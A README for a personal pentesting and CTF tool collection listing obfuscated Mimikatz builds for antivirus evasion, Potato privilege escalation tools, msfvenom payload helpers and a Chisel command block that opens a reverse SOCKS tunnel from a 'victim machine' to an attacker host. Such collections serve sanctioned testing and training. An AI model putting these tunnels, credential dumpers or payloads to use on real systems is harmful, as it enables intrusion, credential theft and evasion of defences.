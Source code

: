 # Kali Lootbox

This is a random collection of really handy scripts and binaries for use in pentesting or CTF. Some of the stuff I had to compile by hand because I couldn't find I couldn't find it anywhere else. Here's a list of the coolest stuff.

Some random things included...

* Chisel Client Socks - Static binaries for x86/x64 win/lin. This is a really cool tunneling application, but never supported reverse dynamic port forwarding with SOCKS5. I found some code that enables this support, and compiled the static binaries for both OS and architectures. Usage is like

```
# on kali box:
./chisel server -p 8080 --reverse

# on victim machine
chisel client 10.10.14.3:8080 R:socks

# edit /etc/proxychains.conf and change bottom line to:
socks5 127.0.0.1 1080

```

**Mount Shared Folder in VMWare**
It is unbelievable to me that Shared Folders in VMWare don't automatically mount or work in any way on Kali without jumping through hoops. I wrote a quick script you can run to mount the folder.

**Mimikatz** 
* Old binaries that still work well on server 2019
* A custom compiled version with some obfuscation
* Powershell obfuscation script based on BlackHills Infosec article:
https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/

**Juicy and Rogue Potato Privesc Techniques**
* x86 version of Juicy Potato is nowhere to be found, adapted the project to work for a CTF that required it.

* RoguePotato - A newer adapter version of Juicy that works on the more modern patch levels of Windows

**Watson and Seatbelt**
* compile latest version of these awesome privesc tools

**Powershell scripts**
* A handful of random powershell scripts that query AD information. 
* A fix for Powercat that doesn't require you to hit the enter key of the victim side. Not sure what that is even a thing but it is.
* A runas script that works a lot like sudo for Windows. The example uses a user to launch netcat, but you can use any binary you want.

**Metasploit/MSFVenom Automation**
* Wrote some quick helper scripts to automatically create msfvenom payloads, and supplementary Metasploit resource files to catch with multi/handler. Makes it really quick and easy to stage a shell and listener.

**Misc Python Scripts**
* The badchars array for buffer overflow
* A script for automating VRFY lookups with a text file of addressess
* A simple ping scanner